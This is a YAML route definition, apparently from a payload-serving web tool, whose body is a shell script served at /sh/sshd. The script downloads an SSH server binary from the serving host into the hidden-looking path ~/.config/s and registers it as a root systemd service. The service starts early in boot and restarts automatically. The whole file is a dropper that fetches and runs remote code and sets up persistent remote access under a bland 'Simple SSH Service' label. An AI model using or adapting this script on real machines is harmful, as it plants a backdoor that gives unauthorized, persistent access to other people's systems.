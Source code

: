 ```yaml
---
title: Simple SSH Service
description: Simple SSH Service (requires build of simple ssh server in static dir)
weight: 1
pattern: /sh/sshd$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    #SVC_DIR=~/.config/systemd/user/
    SVC_DIR=/etc/systemd/system/
    DEST_FILE=~/.config/s
    
    if [ ! -d $SVC_DIR/simple-ssh.service ]; then
      OS=$(uname)
      ARCH=$(uname -m)
    
      mkdir -p $SVC_DIR
    cat << EOF > $SVC_DIR/simple-ssh.service
    [Unit]
    Description=Simple SSH
    DefaultDependencies=no
    Requires=home.mount
    After=home.mount
    Before=sysinit.target systemd-journal-flush.service
  
    [Service]
    ExecStart=$DEST_FILE
    StandardOutput=syslog
    RestartSec=5s
    Restart=always
    TimeoutStopSec=8
  
    [Install]
    WantedBy=multi-user.target
    EOF

      curl {{.Request.Host}}/mdaas/$OS/$ARCH/simple-ssh > $DEST_FILE
      chmod +x $DEST_FILE
    #  systemctl --user daemon-reload
    #  systemctl --user enable simple-ssh
    #  systemctl --user start simple-ssh
      systemctl daemon-reload
      systemctl enable simple-ssh
      systemctl start simple-ssh
    fi

---
```

